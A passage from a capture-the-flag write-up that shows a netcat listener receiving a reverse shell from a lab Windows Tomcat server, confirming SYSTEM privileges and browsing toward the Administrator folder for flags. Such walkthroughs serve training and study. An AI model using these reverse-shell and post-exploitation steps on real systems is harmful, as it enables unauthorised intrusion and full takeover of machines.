 {% code overflow="wrap" lineNumbers="true" %}
```
└─# nc -lvp 4545                          
listening on [any] 4545 ...
10.10.10.95: inverse host lookup failed: Unknown host
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```
{% endcode %}

Check who we are logged in as, and it is "nt authority\system". This is the highest authority on the server.

{% code overflow="wrap" lineNumbers="true" %}
```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```
{% endcode %}

Search for flags, since we are the authority user on the Windows machine. Change directory to Users, find Admin, search for flags folder.&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```
C:\apache-tomcat-7.0.88>cd ..
cd ..

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\

06/19/2018  03:07 AM    <DIR>          apache-tomcat-7.0.88
08/22/2013  05:52 PM    <DIR>          PerfLogs
06/19/2018  05:42 PM    <DIR>          Program Files
06/19/2018  05:42 PM    <DIR>          Program Files (x86)
06/18/2018  10:31 PM    <DIR>          Users
01/21/2022  08:53 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)   2,365,743,104 bytes free

C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users

06/18/2018  10:31 PM    <DIR>          .
06/18/2018  10:31 PM    <DIR>          ..
06/18/2018  10:31 PM    <DIR>          Administrator
08/22/2013  05:39 PM    <DIR>          Public
               0 File(s)              0 bytes
               4 Dir(s)   2,365,743,104 bytes free

C:\Users>cd Administrator
```